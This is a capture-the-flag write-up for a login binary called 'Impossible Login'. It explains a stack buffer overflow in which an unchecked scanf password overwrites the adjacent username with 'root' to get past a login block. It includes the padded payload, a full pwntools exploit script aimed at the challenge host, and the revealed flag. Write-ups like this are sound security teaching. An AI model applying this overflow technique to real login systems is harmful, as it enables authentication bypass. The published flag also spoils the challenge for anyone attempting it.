








# Impossible Login - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:



---

## Challenge Summary

The goal is to log in as `root`, which is normally blocked. Due to a stack overflow in the `password` input, it's possible to overwrite the `username` variable and bypass the restriction. By padding the password with `root` at the right offset, the program accepts the login and reveals the `root` flag.

## Binary Information

```bash
$ file logmein
```



```bash
$ pwn checksec logmein
```



---

## Static Analysis (IDA Pro)

In IDA Pro, the `main` function performs the following:

- Prompts for a **username** using `scanf("%s", username)` into a 24-byte buffer.
- If the input equals `"root"`, login is denied via `strncmp(username, "root", 4)`.
- Then prompts for a **password**, read into a 32-byte buffer (`scanf("%s", password)`).
- Both variables are stored on the stack; `username` is located just after `password`.
- The `login()` function compares the input credentials to a list stored in a global array `creds[]` using `strncmp()`.





Because `scanf` does not enforce length restrictions, inputting a long password overflows into `username`, allowing us to spoof `"root"` even if the original username wasn't `"root"`. The comparison uses `strncmp()` with the real length of `user/pass`, so partial matches suffice. If credentials match, `motd()` prints a personalized flag.



---

## Exploit Strategy

1. **Username:** Can be any value (e.g., `junk`), as it’s not checked critically.

2. **Password Overflow:**

   - Overflow the `password` buffer (32 bytes) to overwrite the `username` buffer with `"root"`.
   - The password should be `"cant_guess_this"` followed by padding to write `"root"` into the `username`.

3. **Payload:**

   - Username: `junk`
   - Password: `cant_guess_thisAAAAAAAAAAAAAAAAAroot`

4. **Flag Retrieval:**

   - Once `"root"` is set as the username, the `motd()` function displays the root user's flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template logmein --host host5.metaproblems.com --port 5045
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'logmein')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5045)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline(b'junk')

root_password = b'cant_guess_this'
padding = b'A' * 17
root_username = b'root'

payload = flat (
        root_password,
        padding,
        root_username
)

io.sendline(payload)
io.recvuntil(b'Here is your personalize flag: ')
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output



---

## Vulnerability Summary

The program uses **unsafe input handling** with `scanf()` for both the username and password, which are vulnerable to **buffer overflow** attacks. The username input is checked for the string "root" and causes an early exit if matched, but the **password** input buffer (32 bytes) can be overflowed to overwrite the username buffer. This allows an attacker to **force the username to "root"** by crafting a specially padded password, effectively bypassing the login check and retrieving the root flag.

---

## Flag

```
MetaCTF{P@ssw0rDS_r_0pti0n4l}
```
